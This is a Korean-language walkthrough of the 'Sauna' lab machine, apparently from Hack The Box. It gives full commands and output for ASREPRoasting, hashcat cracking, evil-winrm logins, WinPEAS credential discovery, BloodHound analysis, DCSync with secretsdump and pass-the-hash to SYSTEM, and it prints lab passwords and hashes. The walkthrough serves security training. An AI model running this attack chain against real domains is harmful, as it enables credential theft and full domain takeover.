



**날짜:** 2020년 4월 29일 / 문서 번호 D20.100.65 **작성자:** bertolis **머신 제작자:** egotisticalSW **난이도:** 쉬움 (Easy) **분류:** 공식 (Official)

### 개요 (Synopsis)

Sauna는 Active Directory 열거 및 악용을 특징으로 하는 쉬운 난이도의 Windows 머신이다. 웹사이트에 나열된 직원의 전체 이름에서 사용 가능한 사용자 이름을 유추할 수 있다. 이 사용자 이름들을 사용하여 ASREPRoasting 공격을 수행하면, Kerberos 사전 인증(pre-authentication)이 필요 없는 계정의 해시를 얻게 된다. 이 해시에 오프라인 무차별 대입 공격(brute force attack)을 가하여 머신에 WinRM으로 접속할 수 있는 사용자의 평문 비밀번호를 복구할 수 있다.

WinPEAS를 실행하면 다른 시스템 사용자가 자동 로그인되도록 구성되어 있음을 알 수 있고, 해당 비밀번호도 확인할 수 있다. 이 두 번째 사용자는 Windows 원격 관리 권한도 가지고 있다. BloodHound를 통해 이 사용자가 `DS-Replication-Get-Changes-All` 확장 권한을 가지고 있다는 것을 알 수 있는데, 이를 통해 DCSync 공격으로 도메인 컨트롤러에서 비밀번호 해시를 덤프할 수 있게 된다. 이 공격을 실행하면 기본 도메인 관리자의 해시를 반환하며, 이를 Impacket의 `psexec.py`와 함께 사용하여 `NT_AUTHORITY\SYSTEM` 권한으로 쉘을 획득할 수 있다.

### 요구 기술 (Skills required)

* Windows에 대한 기본 지식


* Active Directory에 대한 기본 지식


### 습득 기술 (Skills learned)

* ASREPRoasting 공격


* DCSync 공격


---

열거 (Enumeration)

Nmap

```bash
ports=$(nmap -p- --min-rate=1000 -T4 -Pn TARGET_IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV TARGET_IP

```

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-30 05:36 EDT
Nmap scan report for TARGET_IP
Host is up (0.25s latency).

PORT      STATE SERVICE       VERSION
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-30 16:37:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49667/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49687/tcp open  unknown
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 180.52 seconds

```

Nmap 출력을 보면 이 서버가 `egotistical-bank.local` 도메인의 도메인 컨트롤러임을 알 수 있다. Internet Information Services (IIS)와 LDAP가 각각 기본 포트(80 및 389)에서 실행 중이며, 이를 추가로 열거할 수 있다.

LDAP

`windapsearch`로 LDAP를 열거해 보면 익명 바인딩(anonymous binds)이 허용됨을 확인할 수 있다. 하지만 도메인 객체를 반환하지는 않다.

```bash
└─$ ./windapsearch.py -d EGOTISTICAL-BANK.LOCAL --dc-ip TARGET_IP -U
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: TARGET_IP
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=EGOTISTICAL-BANK,DC=LOCAL
[+] Attempting bind
[+]     ...success! Binded as: 
[+]      None

[+] Enumerating all AD users

[*] Bye!

```

Impacket의 `GetADUsers.py`를 사용해 볼 수도 있지만, 이것 역시 유용한 정보를 반환하지는 않다.

SMB

`smbclient` 유틸리티를 사용하여 공유를 열거할 수 있다. 익명 로그인은 성공하지만 반환되는 공유 폴더는 없다.

```bash
└─$ smbclient -L //TARGET_IP -N -m SMB2
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to TARGET_IP failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available


```

이제 웹사이트를 살펴보도록 한다.

웹 (Web)

브라우저에서 웹사이트로 이동하면 은행 웹사이트가 나타나. Wappalyzer 애드온은 취약한 기술을 식별하지 않는다.

`ffuf`를 사용해 웹사이트를 스캔하면 몇 가지 일반적인 파일과 디렉토리를 찾을 수 있지만, 흥미로운 점은 눈에 띄지 않다.

```bash
└─$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://TARGET_IP/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 279ms]
fonts                   [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 279ms]
images                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 307ms]
Images                  [Status: 301, Size: 151, Words: 9, Lines: 2, Duration: 308ms]
index.html              [Status: 200, Size: 32797, Words: 15329, Lines: 684, Duration: 312ms]
:: Progress: [4614/4614] :: Job [1/1] :: 146 req/sec :: Duration: [0:01:02] :: Errors: 40 ::

```

`about.html`로 이동해서 아래로 스크롤하면 은행 직원들의 전체 이름이 포함된 섹션이 보인다.



* Fergus Smith
* Shaun Coins
* Hugo Bear
* Steven Kerb
* Sophie Driver
* Bowie Taylor

---

초기 침투 (Foothold)

이름 전체를 기반으로 일반적인 사용자 이름 조합을 생성하기 위해 `Username Anarchy`와 같은 도구를 사용할 수 있다. 전체 이름을 텍스트 파일에 저장한 후 스크립트를 실행한다.

```bash
└─$ ./username-anarchy/username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,first > unames.txt
└─$ cat unames.txt       
fergus
fergus.smith
fsmith
shaun
shaun.coins
scoins
hugo
hugo.bear
hbear
steven
steven.kerb
skerb
sophie
sophie.driver
sdriver
bowie
bowie.taylor
btaylor
```

이 일반적인 사용자 이름 목록을 가지고 Kerberos 사전 인증이 비활성화된 계정이 있는지 확인할 수 있다.  Kerberos 사전 인증은 비밀번호 추측 공격으로부터 보호하는 보안 기능이다. 경우에 따라 애플리케이션 서비스 계정(예: Alfresco)에 대해 이 설정을 활성화해야 할 수 있다. 사전 인증이 강제되지 않은 경우, 인증을 위한 더미 요청을 직접 보낼 수 있다. 도메인 컨트롤러의 KDC(Key Distribution Center)는 인증 서비스 요청(AS-REQ)을 확인하고, 사용자 정보를 검증한 후 암호화된 TGT(Ticket Granting Ticket)를 반환한다. TGT에는 해당 계정의 NTLM 해시로 암호화된 자료(타임스탬프)가 포함되어 있다. 이를 통해 평문 비밀번호를 알아내기 위한 오프라인 무차별 대입 공격을 수행할 수 있는 해시를 얻어낼 수 있다.

Impacket의 `GetNPUsers.py`를 사용하면 사전 인증이 필요 없는 사용자 계정에서 해시를 추출하기 위해 ASREPRoasting 공격을 시도할 수 있다. 간단한 bash 명령을 사용하여 이 공격을 실행하고 `unames.txt`에 있는 사용자 이름을 반복 조회해 볼 수 있다.

```bash
└─$ while read p; do impacket-GetNPUsers egotistical-bank.local/"$p" -request -no-pass -dc-ip TARGET_IP >> hash.txt; done < unames.txt
└─$ cat hash.txt  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for fergus
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for fergus.smith
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:3881edabd11206155caeb73a403f5b9b$6e119d85c329662c5826055af9ed4567c2cc1363af83957193619099253c2274b718ca63b103470f791b3cddbefb137ba55563d41f2128665f2ababad658a4b5beeba97a5fcca1443e027d4d680bb6b6759bf518b316eb2ecf6c47f1852117409cbc73292c26e07b6660772443fdbdaa802214a32724b0714233fbfa0ac356d83f414dbe1062cef97773fbff36a55c49e9ef114ab9d5f1908759d751eaeba4dd5e6b02e40f5956938ea98184698ab13eedef53ef8bf59065d668ec7f4fabcdba4d01937aeb076a73520cbb302211dd76bf55fdd89151b31cd5f59394ce1898a00e6f2bb58fc089931a150c7513e2f836341faa868886ce371fb006ecf40ba2ed
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

```

`GetNPUsers.py`는 `fsmith` 사용자의 해시를 반환한다.

Hashcat

`hashcat`을 사용하여 비밀번호를 무차별 대입할 수 있다. 해시를 파일에 저장하고 ASREPRoasting에 맞는 올바른 해시 모드를 결정한다.

```bash
└─$ hashcat --help | grep Kerberos
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

```

Kerberos 5 AS-REP etype 23, 즉 모드 18200을 선택한다. 다음으로 해당 모드와 `rockyou.txt` 워드리스트를 지정하여 `hashcat`을 실행한다.

```bash
hashcat -m 18200 hash.txt -o pass.txt /usr/share/wordlists/rockyou.txt --force
...
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:3881eda...0ba2ed
Time.Started.....: Mon Mar 30 06:28:09 2026, (13 secs)
Time.Estimated...: Mon Mar 30 06:28:22 2026, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   790.1 kH/s (1.05ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10539008/14344385 (73.47%)
Rejected.........: 0/10539008 (0.00%)
Restore.Point....: 10537984/14344385 (73.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Throy1 -> Thelittlemermaid
Hardware.Mon.#1..: Util: 92%
...
```

몇 초 후에 비밀번호를 찾을 수 있다.
비밀번호는 `Thestrokes23`이다.

```
└─$ cat pass.txt                                                                  
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:3881edabd11206155caeb73a403f5b9b$6e119d85c329662c5826055af9ed4567c2cc1363af83957193619099253c2274b718ca63b103470f791b3cddbefb137ba55563d41f2128665f2ababad658a4b5beeba97a5fcca1443e027d4d680bb6b6759bf518b316eb2ecf6c47f1852117409cbc73292c26e07b6660772443fdbdaa802214a32724b0714233fbfa0ac356d83f414dbe1062cef97773fbff36a55c49e9ef114ab9d5f1908759d751eaeba4dd5e6b02e40f5956938ea98184698ab13eedef53ef8bf59065d668ec7f4fabcdba4d01937aeb076a73520cbb302211dd76bf55fdd89151b31cd5f59394ce1898a00e6f2bb58fc089931a150c7513e2f836341faa868886ce371fb006ecf40ba2ed:Thestrokes23
```

WinRM

획득한 자격 증명 `fsmith / Thestrokes23`을 사용해 WinRM(포트 5985)으로 로그인을 시도할 수 있다. Windows Remote Management (WinRM)은 Windows 기본 내장 원격 관리 프로토콜로, 시스템을 원격으로 관리해야 하는 사용자를 위해 종종 활성화되어 있다. `evil-winrm`을 사용하여 원격 시스템에 연결할 수 있다.

```powershell
└─$ evil-winrm -i TARGET_IP -u fsmith -p 'Thestrokes23'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith


```

사용자 플래그는 `c:\Users\Fsmith\Desktop\`에 위치해 있다.

---

권한 상승 (Privilege Escalation)

머신에 초기 침투했으므로 `WinPEAS`와 같은 스크립트를 사용해 열거 작업을 자동화할 수 있다. 현재 WinRM 세션에서 `upload` 명령을 사용해 바이너리를 원격 서버로 전송한 다음 실행한다.

```powershell
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEAS.exe
<SNIP>
[+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultDomainName    :    EGOTISTICALBANK
    DefaultUserName      :    EGOTISTICALBANK\svc_loanmanager
    DefaultPassword      :    Moneymakestheworldgoround!
</SNIP>

```

이 스크립트를 통해 `EGOTISTICALBANK\svc_loanmanager` 사용자가 자동으로 로그인하도록 설정되어 있음을 알 수 있고, 이 계정의 비밀번호가 `Moneymakestheworldgoround!`라는 것도 알 수 있다.
`c:\users\`를 검사해 보면 비슷한 이름의 `svc_loanmgr`가 로컬에 로그온한 것을 확인할 수 있다.

```powershell
*Evil-WinRM* PS C:\Users\FSmith\Documents> dir c:\Users
    Directory: C:\Users
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/25/2020   1:05 PM                Administrator
d-----        1/23/2020   9:52 AM                FSmith
d-r---        1/22/2020   9:32 PM                Public
d-----        1/24/2020   4:05 PM                svc_loanmgr

```

`net user svc_loanmgr` 명령을 통해 이 사용자가 Remote Management Users 그룹의 구성원이라는 것도 알 수 있다. 다시 `evil-winrm`을 사용하여 이 새로운 사용자로 로그인한다.

```powershell
└─$ evil-winrm -i TARGET_IP -u svc_loanmgr -p 'Moneymakestheworldgoround!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                              
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                         
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami
egotisticalbank\svc_loanmgr

```

Bloodhound

Bloodhound를 사용해 Active Directory 도메인을 열거하고 시각화하여 도메인 권한을 상승시킬 수 있는 공격 체인을 식별할 수 있다. `bloodhound-python` 수집기를 사용해 Active Directory에서 원격으로 데이터를 수집할 수 있다. 수집이 끝나면 `bloodhound`를 실행해 공격 경로를 시각화할 수 있다.

```bash
└─$ sudo apt install bloodhound
└─$ sudo pip install bloodhound-python
└─$ bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d EGOTISTICAL-BANK.LOCAL -ns TARGET_IP -c All
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: egotistical-bank.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (SAUNA.EGOTISTICAL-BANK.LOCAL:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Done in 00M 39S
                                                                                     
└─$ ls
20260401052125_computers.json   20260401052125_gpos.json    20260401052125_users.json
20260401052125_containers.json  20260401052125_groups.json
20260401052125_domains.json     20260401052125_ous.json

```

완료되면 json 파일들을 zip으로 압축해 BloodHound UI에 업로드한다.
Queries 탭에서 'Find Principals with DCSync Rights'를 클릭한다. `SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL` 노드가 `GetChangesAll` 엣지를 통해 `EGOTISTICAL-BANK.LOCAL` 노드와 연결되어 있는 것을 볼 수 있다.

엣지를 우클릭하고 Help를 클릭하면 `svc_loanmgr`가 DCSync 공격을 사용하여 도메인 컨트롤러에서 비밀번호 해시를 덤프할 수 있는 권한이 있음을 알 수 있다.


DCSync

Impacket의 `secretsdump.py`를 사용해 이 공격을 수행할 수 있다. 이 스크립트는 복제 권한을 사용하여 모든 도메인 사용자의 NTLM 해시를 보여준다. 아래 명령을 실행하여 기본 도메인 관리자의 비밀번호 해시를 덤프한다.

```bash
└─$ impacket-secretsdump egotistical-bank/svc_loanmgr@TARGET_IP -just-dc-user Administrator
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
[*] Cleaning up...

```

관리자의 해시를 성공적으로 추출했으므로, Impacket의 `psexec.py`와 반환된 해시를 사용하여 Pass The Hash 공격을 수행하고 SYSTEM 권한의 쉘을 얻을 수 있다.

```bash
└─$ impacket-psexec egotistical-bank.local/Administrator@TARGET_IP -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on TARGET_IP.....
[*] Found writable share ADMIN$
[*] Uploading file bbkEKCsN.exe
[*] Opening SVCManager on TARGET_IP.....
[*] Creating service jDfE on TARGET_IP.....
[*] Starting service jDfE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```

루트 플래그는 `c:\Users\Administrator\Desktop\`에 있다.

---

추가 설명이 필요한 부분은 별도로 정리한다.
